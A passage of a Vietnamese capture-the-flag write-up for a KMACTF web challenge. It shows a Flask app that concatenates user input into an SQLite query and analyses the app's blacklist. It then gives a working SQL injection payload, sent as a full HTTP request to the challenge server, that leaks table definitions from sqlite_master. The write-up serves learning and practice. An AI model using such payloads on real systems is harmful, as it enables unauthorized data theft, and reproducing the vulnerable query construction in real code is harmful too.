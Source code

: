     if query == False:
        return render_template_string("Dont cheat my fen =))")
    else:
        try:
            cur = get_db().execute('SELECT msg FROM ' + query + ' where msg like "MSG-%" and msg not like "%KMACTF{%" limit 1')
            result = cur.fetchall()

            if len(result) == 0:
                return render_template_string("No result")

            cur.close()
            return render_template("index.html", result = result)
        except:
            return render_template_string("Something went wrong")

@app.route('/source')
def source():
    source = open(__file__, "r")
    return render_template("source.html", source = source.read())

if __name__ == '__main__':
    init_db()
    app.run(HOST, PORT, debug=True)
{% endraw %}
{% endhighlight %}

+ Đoạn code trên có sử dụng `render_template_string` nhưng input nhập vào không được đưa vô hàm này.
+ Độ dài của đầu vào không được quá 85 và không được sử dụng `union`
+ Không chứa 1 trong các kí tự nằm trong `black_list = ["'", '"', '*', '\\', '/', '#', ';', '-']`
+ Có 1 route `/query` nhận tham số là query và sau đó truyền vào query sql {% raw %}`SELECT msg FROM ' + query + ' where msg like "MSG-%" and msg not like "%KMACTF{%" limit 1`{% endraw %} => có thể SQL Injection
+ Ở đây không cần escape để thoát khỏi câu query nên blacklist ở trên đối với mình hiện tại coi như là vô dụng.
+ Để `result` in ra màn hình thì 2 điều kiện này cần phải đúng:
    + {% raw %}`msg like "MSG-%"`{% endraw %} -> kết quả trả về phải có `MSG-`
    + {% raw %}`msg not like "%KMACTF{%"`{% endraw %} -> không được chứa format flag

## Exploit
- Vì blacklist có chứa `'` và `"` nên việc tạo ra chuỗi `MSG-` không thể sử dụng theo cách này
- Ở đây mình sử dụng `char` để tạo chuỗi
![](https://i.imgur.com/WxY7dsO.png)
- Vậy bây giờ mình chỉ cần thay payload leak db để lấy flag vào chỗ `1`

Giải thích về payload trên:
+ Nối chuỗi `MSG-` với thông tin mình cần leak ra xong `AS` vô cột `msg`
+ Khi đó sẽ qua được 2 điều kiện {% raw %}`msg like "MSG-%"`{% endraw %} và {% raw %}`msg not like "%KMACTF{%"`{% endraw %}

Payload leak table_name
```
GET /query?query=<@urlencode>(select char(0x4d,0x53,0x47,0x2d) || sql as msg from sqlite_master)<@/urlencode> HTTP/1.1
Host: 45.32.110.58:20103
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

```